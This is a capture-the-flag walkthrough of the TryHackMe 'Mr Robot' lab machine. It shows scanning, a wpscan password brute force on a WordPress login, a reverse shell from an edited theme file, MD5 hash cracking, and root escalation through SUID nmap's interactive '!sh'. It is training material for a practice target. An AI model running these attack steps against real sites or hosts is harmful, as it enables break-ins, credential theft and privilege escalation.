






# Mr Robot CTF

**Date:** 21, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/mrrobot) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
nmap -sC -sV -p- 10.10.79.200 -oN nmap-initial
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-21 11:07 IST
Nmap scan report for 10.10.79.200
Host is up (0.19s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 905.32 seconds
```

### Gobuster

```bash
$ gobuster dir -u http://10.10.79.200/ -w /usr/share/wordlists/dirb/common.txt | tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.79.200/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/21 11:27:31 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://10.10.79.200/0/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.79.200/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.79.200/feed/atom/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.79.200/audio/]  
/blog                 (Status: 301) [Size: 233] [--> http://10.10.79.200/blog/]   
/css                  (Status: 301) [Size: 232] [--> http://10.10.79.200/css/]    
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.79.200/wp-admin/] 
/favicon.ico          (Status: 200) [Size: 0]                                     
/feed                 (Status: 301) [Size: 0] [--> http://10.10.79.200/feed/]     
/images               (Status: 301) [Size: 235] [--> http://10.10.79.200/images/] 
/Image                (Status: 301) [Size: 0] [--> http://10.10.79.200/Image/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.79.200/image/]    
/index.html           (Status: 200) [Size: 1188]                                  
/index.php            (Status: 301) [Size: 0] [--> http://10.10.79.200/]          
/intro                (Status: 200) [Size: 516314]                                
/js                   (Status: 301) [Size: 231] [--> http://10.10.79.200/js/]     
/license              (Status: 200) [Size: 309]                                   
/login                (Status: 302) [Size: 0] [--> http://10.10.79.200/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://10.10.79.200/]            
/phpmyadmin           (Status: 403) [Size: 94]                                      
/readme               (Status: 200) [Size: 64]                                      
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.79.200/feed/rdf/]   
/robots               (Status: 200) [Size: 41]                                      
/robots.txt           (Status: 200) [Size: 41]                                      
/rss                  (Status: 301) [Size: 0] [--> http://10.10.79.200/feed/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.79.200/feed/]       
/sitemap              (Status: 200) [Size: 0]                                       
/sitemap.xml          (Status: 200) [Size: 0]                                       
/video                (Status: 301) [Size: 234] [--> http://10.10.79.200/video/]    
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.79.200/wp-admin/] 
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.79.200/wp-content/]
/wp-config            (Status: 200) [Size: 0]                                        
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.79.200/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]                                         
/wp-links-opml        (Status: 200) [Size: 227]                                       
/wp-load              (Status: 200) [Size: 0]                                         
/wp-login             (Status: 200) [Size: 2606]                                      
/wp-mail              (Status: 500) [Size: 3064]                                      
/wp-settings          (Status: 500) [Size: 0]                                         
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.79.200/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size: 42]                                                      
/xmlrpc.php           (Status: 405) [Size: 42]                                                      
                                                                                                    
===============================================================
2021/05/21 12:04:41 Finished
===============================================================
```




### Wappalyzer


### phpmyadmin


### WordPress


---

## Key 1

- Visit **robots.txt** or **robots**:

```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

- Now we have the clue to obtain the key 1:
- Let's curl it down:

```bash
$ curl http://10.10.79.200/key-1-of-3.txt -o key1.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0     95      0 --:--:-- --:--:-- --:--:--    95

$ cat key1.txt 
REDACTED
```


## Wpscan

```bash
$ wpscan --url http://10.10.79.200/ -v -o wpscan-verbose
$ cat wpscan-verbose 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.79.200/ [10.10.79.200]
[+] Started: Fri May 21 11:55:02 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.79.200/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.79.200/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] The external WP-Cron seems to be enabled: http://10.10.79.200/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.79.200/0bdcad3.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.79.200/0bdcad3.html, Match: 'WordPress 4.3.1'

[+] WordPress theme in use: twentyfifteen
 | Location: http://10.10.79.200/wp-content/themes/twentyfifteen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://10.10.79.200/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://10.10.79.200/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, straightforward typography is readable on a wide variety of screen sizes, and suitable for multiple languages. We designed it using a mobile-first approach, meaning your content takes center-stage, regardless of whether your visitors arrive by smartphone, tablet, laptop, or desktop computer.
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 | License: GNU General Public License v2 or later
 | License URI: http://www.gnu.org/licenses/gpl-2.0.html
 | Tags: black, blue, gray, pink, purple, white, yellow, dark, light, two-columns, left-sidebar, fixed-layout, responsive-layout, accessibility-ready, custom-background, custom-colors, custom-header, custom-menu, editor-style, featured-images, microformats, post-formats, rtl-language-support, sticky-post, threaded-comments, translation-ready
 | Text Domain: twentyfifteen
 |
 | Found By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.79.200/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'


[i] No plugins Found.


[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri May 21 11:57:46 2021
[+] Requests Done: 140
[+] Cached Requests: 39
[+] Data Sent: 34.919 KB
[+] Data Received: 53.111 KB
[+] Memory used: 204.859 MB
[+] Elapsed time: 00:02:43
```

## Bruteforcing Wordpress login

### fsocity.dic

- In the **robots.txt**, we also find a dictionary file.
- On downloading, we find that it looks like some username/password file.

```bash
$ wget 10.10.79.200/fsocity.dic
--2021-05-21 12:00:07--  http://10.10.79.200/fsocity.dic
Connecting to 10.10.79.200:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic                       100%[=============================================================>]   6.91M   752KB/s    in 16s     

2021-05-21 12:00:23 (445 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
```

### Identifying username

- If you have watched **Mr.Robot**, you know that Elliot is the name of the protagonist.
- So, I enter **Elliot:something** as the username and password.
- And I was able to confirm that an user named **Elliot** existed.



### Using Hydra

- We know the username. We need to bruteforce the password.

- We can use **fsocity.dic** as the wordlist. But the file is very large.
- Try to fetch only the unique values using `sort -u`.
- Apparently, the file size was drastically reduced (8.5 lakh values -> 11K values). Easy for bruteforcing!

```bash
$ wc -l fsocity.dic 
858160 fsocity.dic

$ sort -u fsocity.dic > uniq-fscoity.dic

$ wc -l uniq-fscoity.dic 
11451 uniq-fscoity.dic
```

- Using `wpscan` for bruteforcing the password:

```bash
$ wpscan --url http://10.10.25.251 -t 50 -U Elliot -P uniq-fscoity.dic

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <                                                                               > (0 / 22)  0.00%  ETA: ??:??:??
[SUCCESS] - Elliot / REDACTED
All Found

Progress Time: 00:07:35 <==========================================                                    > (12 / 22) 54.54%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: REDACTED
```

### Accessing the admin panel

- Login using `Elliot:REDACTED` credentials to access the admin panel.



---

## Reverse Shell

- Modify `404.php` or any other page of the theme and add reverse shell code.



- Listen on the appropriate port using `nc` to obtain a reverse shell:

```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.25.251] 38633
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 09:14:25 up  1:10,  0 users,  load average: 0.01, 1.47, 4.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ whoami
daemon
```

- Upgrade the shell

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ export TERM=xterm
export TERM=xterm
daemon@linux:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234

root@kali:~/Desktop/CTF/TryHackMe/mr_robot_ctf# stty raw -echo; fg
nc -lvnp 1234

daemon@linux:/$ ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
daemon@linux:/$ cd 
```

## Key 2

- The key 2 file is located in **robot** user's directory.
- But the permission is denied.
- Still we can find the **md5 hash** of robot's password.

```bash
daemon@linux:/$ cd home
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt	password.raw-md5

daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied

daemon@linux:/home/robot$ file key-2-of-3.txt 
key-2-of-3.txt: regular file, no read permission

sudo: 1 incorrect password attempt
daemon@linux:/home/robot$ cat password.raw-md5 
robot:REDACTED
```

- Cracking the hash using `hashcat`:

```bash
hashcat REDACTED /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2886/2950 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

REDACTED:REDACTED
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: REDACTED
Time.Started.....: Fri May 21 14:49:39 2021 (1 sec)
Time.Estimated...: Fri May 21 14:49:40 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   437.2 kH/s (1.46ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> loserface1
```

- Switching to **robot** user using the cracked password & obtaining the key:

```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ whoami
robot
robot@linux:~$ cat key-2-of-3.txt 
REDACTED
```

---

## Privilege Escalation

- Robot user doesn't have sudo rights:

```bash
robot@linux:/$ sudo -l
[sudo] password for robot: 
Sorry, user robot may not run sudo on linux.
```

### Running linpeas

- Linpeas gave away the Privilege Escalation vector easily: `nmap`

```bash
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
strace Not Found
.
.
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
.
.
```

### Using Nmap for Priv Esc

- By running nmap in interactive mode, we can spawn a shell using `!sh`.
- Since the **SUID bit** is set, the spawned shell will have root access.

```bash
robot@linux:/dev/shm$ nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:/dev/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> help
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap_path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap_path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

nmap> !sh
# whoami
root
```

---

## Key 3

```bash
# cd /root
# ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
REDACTED
```

---

## References

- [Hydra for web based login](https://linuxhint.com/crack-web-based-login-page-with-hydra-in-kali-linux/)
- [Nmap Priv Esc](https://gtfobins.github.io/gtfobins/nmap/)